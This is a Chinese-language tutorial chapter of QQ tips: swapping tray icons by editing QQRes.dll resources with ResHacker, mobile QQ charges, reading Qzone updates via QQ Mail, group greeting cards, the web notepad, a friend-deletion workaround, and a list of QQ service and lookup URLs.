

#### 1.1.13 更换QQ托盘图标

你想不想把屏幕右下角托盘里的QQ图标也变变呢？把那个小企鹅换成别的图案，或者通过更换托盘图标来隐藏一下QQ，这只需要一个小软件就可以帮助我们搞定。我们用 ResHacker 这个软件打开QQ根目录下的 QQRes.dll 文件，如图34。然后打开“图标”组，托盘图标就位于这里面，里面全是图标的对应标识符。比如我们想要修改QQ性别为男、在线时的图标，就找到 1782 进行修改，如图35。



图34



图35

各个资源标识符的对应状态如下：

| 男 | 女 | 状态 |
|---|---|---|
| 1776 | 1784 | 离开 |
| 1778 | 1786 | 离线 |
| 1780 | 1788 | 隐身 |
| 1782 | 1790 | 在线 |

打开后会出现一个资源名为2052的文件，在这上面按鼠标右键选择“替换资源”，如图36。在出现的新窗口中，如图37，点击“打开新图标文件”，选择一个你喜欢的 ico 图标（必须为 .ico 格式的），然后点击“替换”就可以了。



图36



图37

替换完成之后重新启动QQ，看，图标变成了一个“情”字，如图38，是不是比原来的小企鹅个性多了呢？


图38

#### 1.1.14 手机聊Q

QQ在国内的使用率相当高，特别是年轻人，基本上都有自己的QQ号。那么在不方便使用电脑的时候，用手机聊Q也成为一种热潮。但是手机聊Q的收费方式有谁知道呢？为了让大家明明白白消费，在这里我们就一起来了解一下手机聊QQ。

**用手机聊QQ有两种方式：其一为移动QQ；其二为手机QQ（Java）。**

##### 一、移动QQ

移动QQ是一种与手机绑定在一起的一种上网方式，每个月收5元的包月费（有10元的超级QQ，能设置上线时间！），因为这是短信类型的，所以发QQ消息，移动公司会扣短信费。如此算来，使用这种方式的费用比较高。

- 使用方法：
- 第一步：发送3到1066170024获取短信菜单。
- 第二步：收到短信菜单后直接回复对应的序号可使用相应功能。比如回复1可设置QQ全天在线。

##### 二、手机QQ

手机QQ需要性能较高的手机，可以使用手机下载QQ的软件。如果觉得手机下载不方便，或是认为下载花费太多，可以直接用电脑下载，再传输到手机上。

- 以下为手机QQ软件聊天产生的流量计算方式：1KB=0.03元
- 文字：7条普通短信（约70字/条）≈512个汉字=1KB=0.03元
- 语音：1秒=0.6KB，5秒=3KB=0.09元
- 图片：根据图片实际大小而定，一张普通彩信图片约20KB=0.6元
- 视频：每秒钟14KB
- 试听歌曲：歌曲格式为MP3，每首大小为100–200KB
- MV欣赏：MV使用3GP格式，大小为200–300KB
- 手机QQ软件只挂机不聊天产生的流量计算方式：
- 如您使用手机QQ软件在仅挂机不做任何操作的情况下，也会产生数据流量。流量标准为：大概100–200KB/小时。

手机QQ主要是按流量收费，如果拥有包月流量的话，就很省钱。

#### 1.1.15 轻松阅读空间更新

你现在还在打开一个又一个网站去阅读朋友的QQ空间么？QQ空间访问起来，有时候会非常卡，别说阅读日志了，连登录都有问题。这里教大家通过一个小技巧来迅速浏览所有好友空间里最近更新的内容。

首先我们登录QQ邮箱，然后点击左下角的“阅读空间”，通过查看“QQ好友空间更新”就可以看到你所有好友新写的日志，如图39。



点击文章标题可以进入查看详细内容，就像阅读QQ空间一样，但是却方便了许多，看起来既不卡，又直观，如图40。



#### 1.1.16 群发贺卡

群发贺卡虽然为QQ自身携带的功能，却又鲜为人知，逢年过节给好友发送贺卡还要逐个点击，确实繁琐。大家跟我来，一起探究一下群发贺卡的秘密。

在QQ好友分组上点击鼠标右键，你就会看到“给该组好友发送贺卡”，如图4-1。当你该组好友超过40个时，系统会分批一次为你发送，如图4-2。





图4-2

图4-1

既然这样，还等什么，快选一张你喜欢的贺卡吧！如果你是会员，可以免费发送所有贺卡，非会员也可以选择免费体验区的贺卡进行发送，如图4-3。选定后填写你的祝福内容就可以发送了，如图4-4。



图4-3



图4-4

#### 1.1.17 QQ网络记事本

QQ网络记事本是一款QQ文本记事器，显著的功能就是移动方便，QQ随时开，网络记事本随时用，省去了你劳累繁忙的携带文件。

打开QQ网络硬盘，在下面即可看到“记事本”，打开之后就可以轻松记事了，如图45。这个记事本不光可以保存平时的重要信息，在空白区域点击鼠标右键还有插入位图、插入时间等功能，真可谓是麻雀虽小，五脏俱全啊。



图45

记事完成后可以保存在QQ网络硬盘，如图46，又不占据多大空间，还可以随身携带，方便至极。



图46

下次需要打开网络记事本进行查看，只要依次进入“**网络硬盘**”－“**个人助理**”－“**网络记事本**”即可，如图47，双击对应的文件名即可查看。



图47

#### 1.1.18 删除好友解决连接超时

有时候删除QQ好友时，经常提示超时，直接把好友移到黑名单时也有可能遇到，这该怎么办呢？后来经过仔细的研究，发现用下面的方法可以成功删除。

首先在要删除的QQ号码上点击右键，选择菜单中最后一项“把好友移动到……”—“移动到陌生人”，之后会提示超时。**注意：不要点“重试”也不要点“关闭”**。

再重复刚才的步骤，把这个号码移往陌生人，会弹出要求确定的提示，不要点“确定”，先把上一个要求重试的提示取消，然后再回到后面的这个提示来选择确定。

最后，再以同样的方法将好友从陌生人移动到黑名单，这样就可以顺利删除了。

#### 1.1.19 QQ常用网站

##### 一、信息查询

- 1. QQ音速成绩查询
  - 广东电信：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=209&iUin=QQ号码
  - 上海电信：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=210&iUin=QQ号码
  - 华北一区（网通）：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=211&iUin=QQ号码
  - 华中电信一区（原湖南）：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=214&iUin=QQ号码
  - 华东电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=213&iUin=QQ号码
  - 东北网通一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=212&iUin=QQ号码
  - 华南电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=215&iUin=QQ号码
  - 西南电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=216&iUin=QQ号码
  - 西北电信一区：http://r2.qq.com/cgi-bin/usrinfo/otherinfo?ssn=218&iUin=QQ号码
- 2. QQ财富及红、黄、蓝钻的开通情况
  - http://qqshow.qq.com/cgi-bin/qqshow_user_info?uin=QQ号码
- 3. QQ交友中心详细原始资料
  - http://bbs.qq.com/cgi-bin/bbs/friend/user_info_show?ln=QQ号码
- 4. 在线状态
  - http://wpa.qq.com/pa?p=1:QQ号码:4
- 5. QQ游戏大厅积分查询（注：查询游戏积分时需要登录）
  - http://game-web.qq.com/cgi-bin/game_queryuser_score?queryuin=QQ号码
- 6. QQ吧社区档案
  - http://user.qbar.qq.com/QQ号码
- 7. QQ宠物
  - http://im.qq.com/client/info/qq_pet_info_set.html?clientuin=QQ号码

##### 二、腾讯游戏

- QQ游戏大厅：http://qqgame.qq.com/
- QQ宠物：http://pet.qq.com/
- QQ堂：http://qqtang.qq.com/
- QQ音速：http://r2.qq.com/
- QQ飞车：http://speed.qq.com/
- QQ华夏：http://qqhx.qq.com/main.html
- QQ三国：http://sg.qq.com/
- QQ幻想：http://fo.qq.com/index.shtml
- QQ自由幻想：http://ffo.qq.com/index.shtml
- QQ寻仙：http://xunxian.qq.com/
- 穿越火线：http://cf.qq.com/
- QQ炫舞：http://x5.qq.com/
- 飞行岛：http://nana.qq.com/
- 地下城与勇士：http://dnf.qq.com/

##### 三、快速访问

- 访问Q-zone：http://user.qzone.qq.com/QQ号码
- QQ书签：http://shuqian.qq.com/QQ号码
- QQ播客：http://video.qq.com/userinfo.htm?u=QQ号码
- QQ拍拍：http://shop.paipai.com/QQ号码
